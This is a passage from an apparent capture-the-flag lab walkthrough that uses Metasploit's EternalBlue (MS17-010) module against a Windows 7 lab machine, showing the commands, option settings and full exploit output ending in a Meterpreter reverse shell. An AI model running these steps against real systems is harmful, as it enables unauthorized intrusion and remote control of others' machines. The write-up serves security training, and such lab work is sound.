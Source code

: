 We are going to be using exploit/windows/smb/ms17_010_eternalblue.

    msf5 > use 2

### 3 Show options and set the one required value. What is the name of this value? (All caps for submission)

    msf5 exploit(windows/smb/ms17_010_eternalblue) > options

    set rhosts 10.10.218.248
    set lhosts 10.8.82.167

Value: RHOSTS

### 4 Run the exploit!

    msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit

    [*] Started reverse TCP handler on 10.8.82.167:4444
    [*] 10.10.249.194:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
    [+] 10.10.249.194:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
    [*] 10.10.249.194:445     - Scanned 1 of 1 hosts (100% complete)
    [*] 10.10.249.194:445 - Connecting to target for exploitation.
    [+] 10.10.249.194:445 - Connection established for exploitation.
    [+] 10.10.249.194:445 - Target OS selected valid for OS indicated by SMB reply
    [*] 10.10.249.194:445 - CORE raw buffer dump (42 bytes)
    [*] 10.10.249.194:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
    [*] 10.10.249.194:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
    [*] 10.10.249.194:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
    [+] 10.10.249.194:445 - Target arch selected valid for arch indicated by DCE/RPC reply
    [*] 10.10.249.194:445 - Trying exploit with 12 Groom Allocations.
    [*] 10.10.249.194:445 - Sending all but last fragment of exploit packet
    [*] 10.10.249.194:445 - Starting non-paged pool grooming
    [+] 10.10.249.194:445 - Sending SMBv2 buffers
    [+] 10.10.249.194:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
    [*] 10.10.249.194:445 - Sending final SMBv2 buffers.
    [*] 10.10.249.194:445 - Sending last fragment of exploit packet!
    [*] 10.10.249.194:445 - Receiving response from exploit packet
    [+] 10.10.249.194:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
    [*] 10.10.249.194:445 - Sending egg to corrupted connection.
    [*] 10.10.249.194:445 - Triggering free of corrupted buffer.
    [*] Sending stage (201283 bytes) to 10.10.249.194
    [*] Meterpreter session 1 opened (10.8.82.167:4444 -> 10.10.249.194:49169) at 2020-07-25 04:42:05 +0100
    [+] 10.10.249.194:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.10.249.194:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 10.10.249.194:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

    meterpreter > shell


### 5 Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.
